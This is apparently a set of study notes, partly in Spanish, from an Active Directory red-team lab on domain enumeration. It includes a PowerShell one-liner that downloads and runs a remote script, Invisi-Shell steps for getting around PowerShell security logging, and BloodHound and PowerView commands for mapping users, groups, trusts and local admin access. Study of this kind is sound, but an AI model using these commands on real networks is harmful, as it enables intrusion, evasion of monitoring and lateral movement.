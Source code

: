 # Domain Enumeration

Descargar archivos:
`iex (New-Object Net.WebClient).DownloadString('[https://webserver/payload.ps1](https://webserver/payload.ps1)')`

Invisi-Shell para Bypassear Seg. en PowerShell:

priv. Admin: `RunWithPathAsAdmin.bat`

priv. NonAdmin: `RunWithRegistryNonAdmin.bat`

Para enumerar:

-BloodHound

-PowerView.ps1

BloodHound:

-`Run SharpHound.ps1` → `invoke-BloodHound -CollectionMethod All` or `SharpHound.exe`

-Generan unos archivos para BloodHound

Comandos para enumerar dominios y grupos:

-`Get-Domain` (Power-View), `Get-ADDomain` (Active Directory Module)

-`Get-Domain -Domain techcorp.local` (de otro dominio)

-`Get-DomainUser` , `Get-DomainGroup` , `Get-DomainComputer` , `Get-DomainController`  , `Get-DomainSID` , `Get-DomainGroup **admin*` , `Get-NetLocalGroup` , `Get-NetLocalGroupMember` , `Get-DomainOU` , `Get-DomainObjectAcl -Identity studentuser1 –ResolveGUIDs` , `Find-InterestingDomainAcl -ResolveGUIDs` , `Get-DomainTrust` , `Get-Forest` ,* 

*`Get-ForestDomain` , `Get-ForestGlobalCatalog` , `Get-ForestTrust`* 

UserHunting: `Find-WMILocalAdminAccess.ps1` && `Find-PSRemotingLocalAdminAccess.ps1`

`Find-LocalAdminAccess –Verbose`

`Find-DomainUserLocation -Verbose`

`Find-DomainUserLocation -CheckAccess`

`Find-DomainUserLocation –Stealth`